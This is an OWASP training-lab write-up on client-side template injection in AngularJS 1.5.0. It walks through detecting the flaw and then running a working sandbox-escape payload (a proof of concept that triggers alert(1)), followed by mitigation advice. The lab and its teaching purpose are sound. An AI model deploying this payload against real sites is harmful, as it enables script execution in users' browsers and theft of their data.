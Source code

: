 # KBID 111 - Client Side Template Injection

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:csti
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti  
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](.gitbook/assets/csti-1.png)

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```html
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

{% hint style="info" %}We are going to use the same payload of the XSS lab{% endhint %}

```html
"><script>alert('XSS')</script>
```
Unfortunately the alert does not trigger :(

![](.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3

{% hint style="warning" %}How do we get XSS?{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

![](.gitbook/assets/csti-3.png)

{% hint style="success" %}Bingo!!{% endhint %}

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

* break the sanitizer
* escape the sandbox
* forge a working payload

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

#### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```
We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```
We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute  JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Mitigation

Client side template injection can be prevented by using

1) ngNonbindable directive.

2) Content security policy.

3) Upgrade Angularjs.

In this case, we are implementing ngNonbindable directive. The ngNonBindable directive tells AngularJS not to compile or bind the contents of the current DOM element, including directives on the element itself that have a lower priority than ngNonBindable. This is useful if the element contains what appears to be AngularJS directives and bindings but which should be ignored by AngularJS.

Here simple interpolation binding {{}} is present

path: CSTI/templates/index.html
```
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```
For mitigating we have used ngNonBindable directive, it ignores the angular element.

```
<center> <p style="font-size:2em;" ng-non-bindable>{{CSTI}}</p></center><center> <p style="font-size:2em;" ng-non-bindable>{{CSTI}}</p></center>
```


## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes"%}
{% embed url="https://docs.angularjs.org/guide/security"%}
